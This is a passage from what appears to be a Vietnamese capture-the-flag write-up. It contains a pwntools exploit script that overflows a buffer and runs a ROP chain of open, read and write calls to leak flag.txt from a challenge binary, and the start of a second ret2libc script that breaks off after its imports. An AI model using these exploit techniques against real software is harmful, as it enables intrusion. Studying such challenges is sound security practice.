     p.sendlineafter(b'In order to proceed, tell us the secret phrase: ', b's34s0nf1n4l3b00')

    p.recvuntil(b'Season finale is here! Take this souvenir with you for good luck: [')
    addr = int(p.recvuntil(b']').decode()[:-1], 16)

    rop = ROP(elf)
    pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]
    pop_rsi_ret = rop.find_gadget(['pop rsi', 'ret'])[0]

    fd = 3
    offset = 72

    payload  = b'flag.txt'
    payload += b'\0' * (offset - len(payload))

    payload += p64(pop_rdi_ret)
    payload += p64(addr)
    payload += p64(pop_rsi_ret)
    payload += p64(0)
    payload += p64(elf.plt.open)

    payload += p64(elf.sym.finale)

    p.sendlineafter(b'Now, tell us a wish for next year: ', payload)

    payload  = b'A' * offset

    payload += p64(pop_rdi_ret)
    payload += p64(fd)
    payload += p64(pop_rsi_ret)
    payload += p64(addr)
    payload += p64(elf.plt.read)

    payload += p64(pop_rdi_ret)
    payload += p64(1)
    payload += p64(pop_rsi_ret)
    payload += p64(addr)
    payload += p64(elf.plt.write)

    p.sendlineafter(b'Now, tell us a wish for next year: ', payload)
    p.recvline()
    p.recvline()
    p.recvline()
    print(p.recvline())
    p.close()


if __name__ == '__main__':
    main()
```

còn đây là payload  ret2libc 

```
#!/usr/bin/env python3

from pwn import *


